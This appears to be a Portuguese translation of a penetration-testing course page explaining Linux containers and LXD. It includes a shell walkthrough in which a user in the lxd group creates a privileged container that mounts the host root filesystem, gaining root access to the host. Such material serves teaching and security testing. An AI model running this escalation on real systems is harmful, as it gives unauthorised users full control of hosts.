 Os contêineres compartilham um sistema operacional e isolam os processos de aplicativos, enquanto a virtualização clássica permite a execução simultânea de múltiplos sistemas operacionais em um único hardware.

Tanto o isolamento quanto a virtualização são cruciais para a gestão eficiente de recursos e segurança, facilitando o monitoramento de erros e o isolamento de processos que requerem privilégios elevados, como aplicativos web ou APIs, protegendo o sistema host contra possíveis escalonamentos de privilégios.

## Contêineres Linux
Linux Containers (LXC) é uma técnica de virtualização em nível de sistema operacional que permite a execução isolada de vários sistemas Linux em um único host, compartilhando o kernel do sistema.

LXC é popular por sua facilidade de uso, menor consumo de recursos em comparação com máquinas virtuais e uma interface padrão que facilita o gerenciamento de múltiplos contêineres. Ele também oferece portabilidade, permitindo que aplicativos funcionem em diferentes sistemas e nuvens. 

A disseminação do LXC foi impulsionada pela plataforma Docker, que popularizou os contêineres Linux, mantendo uma configuração consistente desde a criação até a implantação de contêineres e aplicativos.

### Daemon Linux

O Linux Daemon ( [LXD](https://github.com/lxc/lxd) ) é similar em alguns aspectos, mas é projetado para conter um sistema operacional completo. Portanto, não é um contêiner de aplicativo, mas um contêiner de sistema. Antes de podermos usar este serviço para escalar nossos privilégios, precisamos estar no grupo `lxc`ou `lxd`. Podemos descobrir isso com o seguinte comando:

```shell-session
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

A partir daqui, agora há várias maneiras de explorar `LXC`/ `LXD`. Podemos criar nosso próprio contêiner e transferi-lo para o sistema de destino ou usar um contêiner existente.

Infelizmente, os administradores geralmente usam modelos que têm pouca ou nenhuma segurança. Essa atitude tem como consequência que já temos ferramentas que podemos usar contra o sistema nós mesmos.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Modelos de contêineres em ambientes de teste geralmente não têm senhas para facilitar o acesso e a usabilidade. Focar em segurança nesses casos poderia complicar e retardar o processo de iniciação. Se um contêiner vulnerável estiver presente no sistema, ele pode ser explorado importando-o como uma imagem.

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list
```

Após verificar que essa imagem foi importada com sucesso, podemos iniciar a imagem e configurá-la especificando a flag `security.privileged` e o caminho raiz para o contêiner. Essa flag desabilita todos os recursos de isolamento que nos permitem atuar no host.

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Depois de fazer isso, podemos iniciar o contêiner e fazer login nele. No contêiner, podemos então ir para o caminho que especificamos para acessar o `resource`do sistema host como `root`.

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root
```

































































